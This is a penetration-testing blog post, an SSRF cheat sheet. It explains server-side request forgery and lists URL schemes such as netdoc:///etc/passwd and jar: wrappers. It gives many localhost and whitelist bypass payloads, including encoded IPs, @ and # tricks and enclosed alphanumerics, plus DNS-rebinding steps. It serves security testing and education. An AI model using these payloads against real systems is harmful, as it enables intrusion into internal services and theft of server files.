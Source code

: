 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality, you can gain a larger understanding on what SSRF on [Aptive's](https://www.aptive.co.uk/blog/what-is-server-side-request-forgery-ssrf/) website. 

Another way to understand this is to imagine the vulnerable function within the web application as acting like a web browser, which can be used to pivot or relay requests to internal interface addresses, the loopback address, or the internal network in order to access internal services — effectively bypassing the WAF or firewall.

An example of this might be a web function that allows users to submit a URL or integrate a third-party service. This could potentially be exploited to access internal or local IP addresses.

When SSRF is identified in applications using modern frameworks or protected by a WAF, additional effort is often needed to bypass the filtering or security mechanisms in place, in order to successfully exploit the vulnerability.

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">is using your own Burp Collaborator on Linode using this link to get a  $100 voucher</a>. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note tip">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.</p>
    
    <p><a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## SSRF Whitelist Filter Bypass 

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 

### URL Schema / Wrappers

The following URL schemas can be potentially exploited by SSRF vulnerabilies. 

The URL schemas have been sorted by framework / language. 



#### PHP SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled). 

{% highlight bash %}
gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
{% endhighlight %}

#### ASP.NET SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within ASP.NET environments (gopher legacy only). 

{% highlight bash %}
gopher://
ftp://
file://
http://
https://
{% endhighlight %}

#### Java SSRF Wrappers / URL Schema 

The following wrappers are expected within Java environments, and can be used to potentially exploit [LFI](https://highon.coffee/blog/lfi-cheat-sheet/) vulnerabilities. 

{% highlight bash %} 
ftp://
file://
http://
https://
gopher://
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
{% endhighlight %}

<div class="note tip">
  <h5>NOTE: OpenJDK 8+ Redirects</h5>
  <p>It should be noted that OpenJDK 8+ does not follow redirects if the protocols do not match. </p>
</div>



#### cURL SSRF Wrappers / URL Schema 

The following wrappers are expected with environments using cURL. 

{% highlight bash %}
file:///
dict://
sftp://
ldap://
tftp://
gopher://
ssh://
http://
https://
imap://
pop3://
smtp://
telnet://
{% endhighlight %}


### Open Redirect SSRF Bypass 

Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example: 

{% highlight bash %}
/foo/bar?vuln-function=http://127.0.0.1:8888/secret
{% endhighlight %}

### Basic locahost bypass attempts 

Localhost bypass:

{% highlight bash %}
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
{% endhighlight %}

various bypasses: 

{% highlight bash %}
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
{% endhighlight %}


### hosts file bypass attempts 

### Enclosed Alphanumeric 

{% highlight bash %}
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
{% endhighlight %}

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In some cases, a target function may "blindly" validate a hostname against a allowlist (aka whitelist) or denylist (aka blacklist) without verifying the resolved IP address. Once the hostname is deemed acceptable by this initial check, it is then passed to the underlying function it was meant to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


## Post Exploitation / Enumeration

In an effort to demonstrate the severity of the SSRF vulnerability enumeration of server side ports could be performed using Burp Intruder. 

The above process could be performed to enumerate other local IP addresses and/or bruteforcing URL (IDOR / Forced Browsing) to identify services or functionality that was not intended by the organisation. 


Happy hunting / pen testing. 

**Sources:** 

- (https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- (https://www.aptive.co.uk/blog/what-is-server-side-request-forgery-ssrf/#what-is-server-side-request-forgery-ssrf)
